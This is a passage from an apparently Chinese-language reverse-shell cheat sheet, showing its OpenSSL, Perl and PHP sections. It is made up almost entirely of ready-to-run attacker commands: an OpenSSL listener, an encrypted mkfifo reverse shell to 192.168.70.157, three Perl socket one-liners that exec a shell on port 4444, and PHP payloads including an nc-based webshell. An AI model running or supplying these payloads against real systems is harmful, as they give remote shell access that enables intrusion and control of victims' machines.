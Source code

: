  
-keyout key.key:生成私钥  
  
  
-out cert.pem：生成pem证书  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zULPOPl8mKfRzbQcANBvF2yVLgiacY4F0j4yKsibZib1Xicl2PIowmgDvibtfdoyhBYhbzOT7JchFfjc4w/640?wx_fmt=png&from=appmsg "")  
### 2. (攻击者)服务端监听端口  
> openssl s_server -quiet -key key.pem -cert cert.pem -port 1337  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zULPOPl8mKfRzbQcANBvF2yPiawb7mryfdodW6X71eQW4Vw19QRUm5OmlZz7XhFHumx8F0zibrA8y8Q/640?wx_fmt=png&from=appmsg "")  
### 3. 使用mkfifo进行反弹shell(使用openssl单向认证)  
> rm -f /tmp/s;mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.70.157:1337 > /tmp/s; rm -f /tmp/s  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zULPOPl8mKfRzbQcANBvF2yk74SibdiaW4gdYo6zBf4ib3fdKicPKOPJ6bMf7HpWfJIUPbcIKcE0asvCQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zULPOPl8mKfRzbQcANBvF2yDes4BX9FeVMiaOhiacaY9gLsXbvJvQFJrxPaA6nd1F30mfFTwkiaUNcRw/640?wx_fmt=png&from=appmsg "")  
  
****  
**12**  
  
  
**Perl**  
  
  
	  
    依靠/bin/bash  
> perl -e 'use Socket;$i="192.168.70.157";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
  
  
	  
    不依靠/bin/bash（5.10之前）  
> perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.70.157:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
  
  
	  
    不依靠/bin/bash（5.10之后）  
> perl -MIO::Socket::INET -e '$p=fork; exit, if $p; $c=new IO::Socket::INET(PeerAddr,"192.168.70.157:4444"); STDIN->fdopen($c,r); STDOUT->fdopen($c,w); system$_ while<>;'  
  
  
     
  
**13**  
  
  
**PHP**  
  
  
> php -r '$sock=fsockopen("[: ip]",[: port]);exec("/bin/bash -i <&3 >&3 2>&3");'  
  
  
> <  
?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [: ip] [: port]>/tmp/f"); ?>  
  